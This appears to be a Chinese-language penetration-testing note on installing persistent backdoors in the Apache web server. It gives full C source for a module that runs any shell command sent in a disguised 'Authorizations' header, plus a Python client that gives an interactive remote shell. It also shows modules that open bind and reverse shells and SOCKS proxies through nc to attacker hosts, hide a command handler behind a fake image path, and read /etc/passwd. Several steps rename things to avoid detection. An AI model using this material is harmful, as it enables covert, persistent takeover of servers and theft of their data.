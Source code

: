   #### Apache Module后门1
	From:https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor
	生成模板结构
	>apxs -g -n auth
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/620.png)
	
	编辑mod_auth.c文件
```c
#include "httpd.h"
#include "http_config.h"
#include "http_protocol.h"
#include "ap_config.h"
#include <stdio.h>
#include <stdlib.h>
static int auth_handler(request_rec *r)
{
    const apr_array_header_t    *fields;
    int                            i;
    apr_table_entry_t           *e = 0;
    char FLAG = 0;
    fields = apr_table_elts(r->headers_in);
    e = (apr_table_entry_t *) fields->elts;
    for(i = 0; i < fields->nelts; i++) {
        if(strcmp(e[i].key, "Authorizations") == 0){
            FLAG = 1;
            break;
        }
    }
    if (FLAG){
        char * command = e[i].val;
        FILE* fp = popen(command,"r");
        char buffer[0x100] = {0};
        int counter = 1;
        while(counter){
            counter = fread(buffer, 1, sizeof(buffer), fp);
            ap_rwrite(buffer, counter, r);
        }
        pclose(fp);
        return DONE;
    }
    return DECLINED;
}
static void auth_register_hooks(apr_pool_t *p)
{
    ap_hook_handler(auth_handler, NULL, NULL, APR_HOOK_MIDDLE);
}
module AP_MODULE_DECLARE_DATA auth_module = {
    STANDARD20_MODULE_STUFF, 
    NULL,                  /* create per-dir    config structures */
    NULL,                  /* merge  per-dir    config structures */
    NULL,                  /* create per-server config structures */
    NULL,                  /* merge  per-server config structures */
    NULL,                  /* table of config file commands       */
    auth_register_hooks  /* register hooks                      */
};

```
	编译后重启apache
	>apxs -i -a -c mod_auth.c && service apache2 restart
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/621.png)

	原文件接受的头是backdoor太明显，这里换成了Authorizations
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/622.png)
	
	或使用python来执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/623.png)
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import sys
def exploit(host, port, command):
    headers = {
        "Authorizations": command
    }
    url = "http://%s:%d/" % (host, port)
    response = requests.get(url, headers=headers)
    content = response.content
    print content
def main():
    if len(sys.argv) != 3:
        print "Usage : "
        print "\tpython %s [HOST] [PORT]" % (sys.argv[0])
        exit(1)
    host = sys.argv[1]
    port = int(sys.argv[2])
    while True:
        command = raw_input("$ ")
        if command == "exit":
            break
        exploit(host, port, command)
if __name__ == "__main__":
    main()

```
  #### Apache Module后门2
	From:https://github.com/VladRico/apache2_BackdoorMod
	.load文件传入/etc/apache2/mods-available/目录，.so文件传入/usr/lib/apache2/modules/目录
	启动后门模块，重启apache
	>a2enmod backdoor&service apache2 restart
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/624.png)

	Cookie里添加字段password=backdoor
	访问http://ip/ping返回如下图说明后门正常允许
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/625.png)

	访问http://ip/bind/12345 开启正向连接，攻击机执行nc ip 12345即可
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/626.png)

	访问http://ip/revtty/192.168.0.107/12138 开启反向连接，攻击机109执行nc监听12138即可
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/627.png)

	访问http://ip/proxy/1337开启socks代理
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/628.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/629.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/630.png)

	想要结束socks代理可执行
	>echo "imdonewithyou" |nc 192.168.0.111 1337
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/631.png)

	即可结束socks代理
	以上原作者的文件命名backdoor太明显，可以自己修改文件重新编译
	创建模板结构命名为phpmodev
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/632.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/633.png)

	修改cookie内容为迷惑字段Authorizations=PHPSESSIONID
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/634.png)
  #### Apache Module后门3
	From: https://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247491179&idx=1&sn=ab26fe36ac74f5b140e91279ae8018c7
	生成模板结构
	>apxs -g -n phpdevmod
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/635.png)

	编辑mod_phpdevmod.c文件
	编译
	>make -e CC=x86_64-linux-gnu-g++
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/636.png)

	生成的.so文件在/.libs目录下
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/637.png)

	将其复制到/usr/lib/apache2/modules/目录
	修改/etc/apache2/mods-enabled/php7.0.load文件，添加如下
	LoadModule phpdevmod_module /usr/lib/apache2/modules/mod_phpdevmod.so
	<Location /qq.jpg>    #可以设置为任何不存在的文件
    	setHandler phpdevmod
	</Location>
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/638.png)

	需重启apache服务
	访问后门方式http://ip/qq.jpg?命令的url编码
	直接访问后门文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/639.png)

	636174202F6574632F706173737764为cat /etc/passwd的url编码
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/640.png)